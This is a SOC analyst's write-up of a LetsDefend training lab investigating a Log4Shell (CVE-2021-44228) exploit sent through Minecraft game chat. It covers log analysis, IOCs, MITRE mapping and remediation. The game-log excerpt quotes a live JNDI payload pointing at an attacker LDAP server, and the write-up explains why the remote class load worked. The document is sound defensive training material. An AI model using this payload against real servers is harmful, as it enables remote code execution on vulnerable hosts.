







# SOC161 – Log4j RCE Exploit (CVE-2021-44228, Log4Shell)

**Platform:** LetsDefend SOC Simulator | **Event ID:** 111 | **Severity:** Critical | **Role:** Incident Responder | **Difficulty:** Medium
**Analyst:** Sidharth V Nambiar | **Verdict:** ✅ True Positive (remote code execution confirmed, host isolated)

---

## Summary
A player on an internal Minecraft server typed a Log4Shell JNDI string into game chat. The server's Log4j library resolved it, connected to the attacker's LDAP server, downloaded a malicious Java class and executed it, launching `cmd.exe /c calc.exe` as proof of code execution. No persistence or privilege escalation was found. The host was isolated.

## Alert details

| Field | Value |
|---|---|
| Event time | 2021-12-11 10:41:12 (+03:00) |
| Host | Minecraft Server / 192.168.10.69 |
| CVE | CVE-2021-44228 |
| Parent process | `C:/Users/LetsDefend/Desktop/Minecraft Server 1.12.2/paper-1.12.2-1618.jar` |
| Suspicious command | `cmd.exe /c calc.exe` |
| AV action | Allowed |
| L1 note | "Server created to play Minecraft with the SOC team. Found calc.exe in Sysmon logs but didn't understand how it was created." |
| MITRE | T1587, T1190, T1059, T1071 |

## Investigation

### 1. Game server log (`Minecraft Server 1.12.2/logs/latest.log` via Connect)
```
UserMC[/85.153.205.179] logged in ...
testuser23[/151.135.112.161] logged in ...
<testuser23> hey
<testuser23> ${jndi:ldap://18.217.235.130:1389/exploit2}
<testuser23> ${jndi:ldap://18.217.235.130:1389/exploit}
testuser23 lost connection: Disconnected
```
Attacker: **testuser23 @ 151.135.112.161**. (UserMC was a normal player.)

### 2. Network (Log Management)

| Time (log TZ) | Event |
|---|---|
| 17:40:17 | Firewall: `192.168.10.69 → 18.217.235.130:1389` (LDAP lookup) |
| 17:40:17 | Proxy: `GET http://18.217.235.130/Exploit.class` |
| 17:40:17 | Proxy: `GET http://18.217.235.130/Exploit2.class` |

The **victim connects out** to the attacker. This outbound LDAP + class download is the Log4Shell signature.

### 3. Endpoint (Terminal History)

| Time | Command |
|---|---|
| 10:35:52 | `java.exe -jar .../paper-1.12.2-1618.jar` (server start) |
| 10:40:16 | `cmd.exe /c calc.exe` |
| 10:40:33 | `cmd.exe /c start echo Log4j Exploit Test Success` |

Earlier commands on 10.12.2021 (net user, ipconfig, arp) predate the exploit and are unrelated.

### 4. Threat intel
`18.217.235.130`: 0/92 on VirusTotal (Amazon AWS). Short-lived cloud infrastructure; behaviour, not reputation, proves maliciousness.

### 5. Why it worked
- Paper 1.12.2 bundles a vulnerable Log4j 2.x
- Java **8u181** (< 8u191) still allows remote class loading via LDAP (`trustURLCodebase`), so `Exploit.class` executed

## Incident response playbook answers

| Question | Answer |
|---|---|
| TP or FP | True Positive |
| Incident type | Generic |
| Initial access | Exploit Public-Facing Application (T1190) |
| Persistence | None |
| Privilege escalation | No |
| Isolate device | Yes |

## MITRE ATT&CK

| Technique | ID | Evidence |
|---|---|---|
| Exploit Public-Facing Application | T1190 | JNDI string via game chat |
| Application Layer Protocol | T1071 | LDAP/HTTP callback to 18.217.235.130 |
| Command and Scripting Interpreter | T1059.003 | `cmd.exe /c calc.exe` |
| Develop Capabilities | T1587 | Custom Exploit.class payload |

## Eradication & recovery
- Upgrade Paper/Log4j to **2.17.1+** (interim: `-Dlog4j2.formatMsgNoLookups=true`)
- Upgrade Java beyond 8u191
- Block `151.135.112.161` and `18.217.235.130`; block outbound LDAP (389/1389) from servers
- Ban player testuser23; restrict server to known players
- Preserve evidence (logs, memory) before rebuild; reset credentials used on host

## IOCs

| Type | Value |
|---|---|
| Attacker IP | `151.135.112[.]161` (player testuser23) |
| Payload server | `18.217.235[.]130` (LDAP 1389, HTTP 80) |
| Payload | `${jndi:ldap://18.217.235[.]130:1389/exploit}` / `exploit2` |
| URL | `hxxp://18.217.235[.]130/Exploit.class`, `/Exploit2.class` |
| Host | Minecraft Server / `192.168.10.69` |

## Lessons learned
1. **Log4Shell = any logged text can be an exploit,** even game chat.
2. **Watch outbound traffic.** The victim calling out on LDAP is the giveaway.
3. **0/92 reputation means nothing** for short-lived cloud attack servers.
4. **Application logs complete the story.** The game log identified the actual attacker.
5. **The IR mindset:** verify Tier 1, find root cause, check persistence and privesc, contain, preserve evidence, eradicate.

## Tools used
LetsDefend (Endpoint Security + Connect, Log Management, Case Management) · VirusTotal · MITRE ATT&CK


## 📸 Evidence

**Alert details**



**Latest log jndi**



**Ldap callback log**



**Exploit class download**



**Virustotal ip**



**Processes**



**Terminal history**




---
*Lab: LetsDefend (Hack The Box). All indicators are from a training scenario and are defanged.*
